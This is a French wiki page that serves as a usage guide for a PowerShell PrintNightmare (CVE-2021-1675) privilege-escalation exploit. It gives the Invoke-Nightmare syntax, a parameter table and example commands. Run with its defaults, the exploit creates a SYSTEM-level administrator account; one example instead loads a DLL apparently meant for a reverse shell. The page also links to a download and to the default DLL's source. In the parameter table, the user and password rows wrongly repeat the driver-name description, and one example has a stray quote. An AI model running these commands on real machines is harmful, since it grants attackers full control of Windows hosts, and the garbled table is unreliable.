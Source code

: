 ```yaml
---
title: PrintNightmare
description: Version powershell de l'exploit. Utilise une faille qui permet à n'importe quel utilisateur sans le privilège d'ajouter des drivers d'impression à un système, et par conséquent d'exécuter du code en tant que SYSTEM.
published: true
date: 2024-08-23T14:32:14.312Z
tags: outil, windows, powershell
editor: markdown
dateCreated: 2024-08-23T14:32:14.312Z
---
```


# Introduction

Version PowerShell de l'exploit. Utilise une faille dans la fonction RpcAddPrinterDriver, cette faille permet à n'importe quel utilisateur sans le privilège d'ajouter des drivers d'impression à un système, et par conséquent d'exécuter du code en tant que NT AUTHORITY\SYSTEM.

> La fonction RpcAddPrinterDriver permet aux utilisateurs avec le privilège SeLoadDriverPrivilege d'ajouter des drivers sur des spouleurs distants.
> {.is-info}

> La version PowerShell de PrintNightmare est disponible au téléchargement [ici](https://leo-mathy.fr)
> {.is-info}

# Syntaxe

`Import-Module .\cve-2021-1675.ps1`
`Invoke-Nightmare [paramètres]`

# Paramètres

| Paramètre                                      | Description                                                           |
| ---------------------------------------------- | --------------------------------------------------------------------- |
| `-DriverName <nom du driver à ajouter>`        | Spécifie le nom du driver (par défaut:"Totally Not Malicious").       |
| `-NewUser <nom de l'utilisateur>`              | Spécifie le nom du driver (par défaut:"adm1n").                       |
| `-NewPassword <mot de passe de l'utilisateur>` | Spécifie le nom du driver (par défaut:"P@ssw0rd").                    |
| `-DLL <chemin absolu du DLL>`                  | Spécifie le DLL à ajouter (non compatible avec les autres paramètres) |

# Exemples

Lancement avec un DLL personnalisé.
`Invoke-Nightmare -DLL "C:\temp\rshell.dll"`

Lancement avec mot de passe par "t00r_secure".
`Invoke-Nightmare -NewPassword "t00r_secure""`

# Voir aussi

le DLL par défaut utilisé pour ajouter un utilisateur:
https://github.com/calebstewart/CVE-2021-1675/blob/main/nightmare-dll/nightmare/dllmain.cpp
